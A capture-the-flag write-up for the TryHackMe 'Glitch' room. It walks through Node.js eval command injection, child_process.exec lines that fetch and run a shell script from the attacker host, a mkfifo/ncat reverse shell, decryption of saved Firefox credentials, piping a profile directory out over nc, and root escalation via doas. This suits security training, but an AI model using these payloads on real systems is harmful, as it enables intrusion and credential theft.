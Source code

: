 ```bash
# PLATFORM          . THM
# CTF NAME          . GLITCH
# DESCRIPTION       . Challenge showcasing a web app and simple privilege escalation. Can you find the glitch?
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/glitch
```

```
sudo nmap -sSVC -T5 -p- 10.10.84.58 -oN glitch
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: not allowed
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Navigating to the website, we get just a static image and the page title "not allowed."

- In the source code, we find the following

```javascript
function getAccess() {
        fetch('/api/access')
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
```

- If we navigate to `http://10.10.84.58/api/access` we get

```
{"token":"dGhpc19pc19ub3RfcmVhbA=="}
```

- This is base64 encoded. If we enter the decoded value as the value for `token` cookie on the main page, we get access to another page.

- If we inspect the source code this time, we find a `script.js` file at the end

```javascript
(async function () {
  const container = document.getElementById('items');
  await fetch('/api/items')
    .then((response) => response.json())
    .then((response) => {
      response.sins.forEach((element) => {
        let el = `<div class="item sins"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.errors.forEach((element) => {
        let el = `<div class="item errors"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.deaths.forEach((element) => {
        let el = `<div class="item deaths"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
    });

  const buttons = document.querySelectorAll('.btn');
  const items = document.querySelectorAll('.item');
  buttons.forEach((button) => {
    button.addEventListener('click', (event) => {
      event.preventDefault();
      const filter = event.target.innerText;
      items.forEach((item) => {
        if (filter === 'all') {
          item.style.display = 'flex';
        } else {
          if (item.classList.contains(filter)) {
            item.style.display = 'flex';
          } else {
            item.style.display = 'none';
          }
        }
      });
    });
  });
})();
```

- Again, let's go to `http://10.10.84.58/api/items`

```
{"sins":["lust","gluttony","greed","sloth","wrath","envy","pride"],"errors":["error","error","error","error","error","error","error","error","error"],"deaths":["death"]}
```

- Here I was stuck for a while. I noticed that if we navigate to `/api/arandomvaluethatdoesntexist` we get 

```
Cannot GET /api/arandomvaluethatdoesntexist
```

- I've decided to play around in Burp Suite and after a while I've tried using POST instead of GET for the `/api/items`.

```
{"message":"there_is_a_glitch_in_the_matrix"}
```

- I've tried path traversal thinking that I can access other endpoints than `/api/access` and I even tried directory fuzzing.

- However, as I later figured out, all I had to do was to try and append `?cmd=` after `/api/access`.

- Here's how the final request should look like

```
POST /api/items?cmd=ls HTTP/1.1
Host: 10.10.84.58
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=this_is_not_real
Connection: close
```

- But take a look af what we get as an answer

```
ReferenceError: ls is not defined  
    at eval (eval at router.post (/var/web/routes/api.js:25:60), <anonymous>:1:1)  
    at router.post (/var/web/routes/api.js:25:60)  
    at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)  
    at next (/var/web/node_modules/express/lib/router/route.js:137:13)  
    at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)  
    at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)  
    at /var/web/node_modules/express/lib/router/index.js:281:22  
    at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)  
    at next (/var/web/node_modules/express/lib/router/index.js:275:10)  
    at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)
```

- Line two in particular is suggesting that this is failing at `eval()`. 
- Other paths in the error sugges that this server is running node js.

- So we might able to run node js commands.

- After some research, I came with the following conclusions

```
require("child_process").exec("curl IP/shell.sh > /tmp/shell.sh")
require("child_process").exec("/bin/sh /tmp/shell.sh")
```

- We could use the first command to get the `shell.sh` script from our host and write it to `/tmp/shell.sh`.
- We could use the second command to execute it.

- However, I've quickly found out that I actually need to URL-encode the commands, so they became

```
require(%22child_process%22).exec(%22curl%20IP/shell.sh%20%3E%20/tmp/shell.sh%22)
require(%22child_process%22).exec(%22/bin/sh%20/tmp/shell.sh%22)
```

- After ages of trial and error, the working reverse shell is

```shell.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|ncat -u ip 3131 >/tmp/f
```

___

- First flag is in `/home/user/user.txt`

#### PRIVILEGE ESCALATION user --- user -> v0id

- In our home directory, there's `.firefox` directory and has full permissions to it.

- This is not common and I've assumed it had something to do with our privilege escalation vector, but I kept looking for something else as I had no idea what to do with the content of `.firefox`.

- I've checked other sources since I was really stuck here and I've found out that we can use a script called [firefox_decrypt](https://github.com/unode/firefox_decrypt)

- I've downloaded it locally and cd'ed into the directory.
- Then, I've started a python3 http.server and from the target host I used wget to get the entire directory recursively

```
wget --recursive --no-parent http://IP:8000/firefox_decrypt .
```

```
python firefox_decrypt.py ~/.firefox/b5w4643p.default-release/
```

```
Master Password for profile .firefox/b5w4643p.default-release/: 
2021-05-18 11:04:58,388 - WARNING - Attempting decryption with no Master Password

Website:   https://glitch.thm
Username: 'v0id'
Password: 'l{REDACTED}d'
```

- Another way is to transfer the `b5w4643p.default-release` to the attack box using nc

SENDING

```
tar -cf - . | nc IP PORT
```

RECEIVING

```
nc -nvlp PORT | tar -xf -
```

- Then, start firefox using `firefox --profile /path/to/b5w4643p.default-release`

- After firefox started, head to `about:logins` in the URL bar.

___

#### PRIVILEGE ESCALATION --- v0id -> root

- I found the following binary when looking for privilege escalation paths for `user`.  

```
/usr/local/bin/doas
```

- We can abuse this by using it like this

```
doas -u root /bin/bash
```

- The last flag is in `/root/root.txt`.

